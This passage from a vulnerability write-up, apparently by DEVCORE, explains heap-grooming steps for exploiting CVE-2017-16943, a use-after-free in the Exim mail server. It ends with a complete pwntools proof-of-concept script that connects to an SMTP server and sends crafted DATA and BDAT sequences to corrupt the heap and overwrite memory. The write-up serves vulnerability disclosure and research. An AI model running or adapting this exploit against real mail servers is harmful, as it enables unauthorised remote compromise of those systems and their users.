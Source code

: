 To avoid this, we need to make exim allocate and free some memories before we actually start our exploitation. Therefore, we add some steps between step 1 and step 2.

After running out of `current_block`:
1. Use DATA command to send lots of data
    Send huge data, make the chunk big and extend many times. After several extension, it calls `store_get` to retrieve a bigger store and then releases the old one. This repeats many times if the data is long enough. Therefore, we have a big chunk in unsortbin.
2. End DATA transfer and start a new email
    Restart to send an email with BDAT command after the heap chunk is prepared.
3. Adjust `yield_length` again
    Send invalid command with an unprintable charater again to cut the `current_block`.

Finally the heap layout is like:
![](https://i.imgur.com/b4phS3c.png)

And now we can go back to the step 2 at the beginning and create the same situation. When `next->text` is freed, it goes back to unsortbin and we are able to overwrite libc global variables again.
The following is the PoC for default configured exim:
```python
# CVE-2017-16943 PoC by meh at DEVCORE
# pip install pwntools
from pwn import *

r = remote('localhost', 25)

r.recvline()
r.sendline("EHLO test")
r.recvuntil("250 HELP")
r.sendline("MAIL FROM:<>")
r.recvline()
r.sendline("RCPT TO:<meh@some.domain>")
r.recvline()
r.sendline('a'*0x1280+'\x7f')
r.recvuntil('command')
r.sendline('DATA')
r.recvuntil('itself\r\n')
r.sendline('b'*0x4000+':\r\n')
r.sendline('.\r\n')
r.sendline('.\r\n')
r.recvline()
r.sendline("MAIL FROM:<>")
r.recvline()
r.sendline("RCPT TO:<meh@some.domain>")
r.recvline()
r.sendline('a'*0x3480+'\x7f')
r.recvuntil('command')
r.sendline('BDAT 1')
r.sendline(':BDAT \x7f')
s = 'a'*6 + p64(0xdeadbeef)*(0x1e00/8)
r.send(s+ ':\r\n')
r.send('\n')
r.interactive()
```
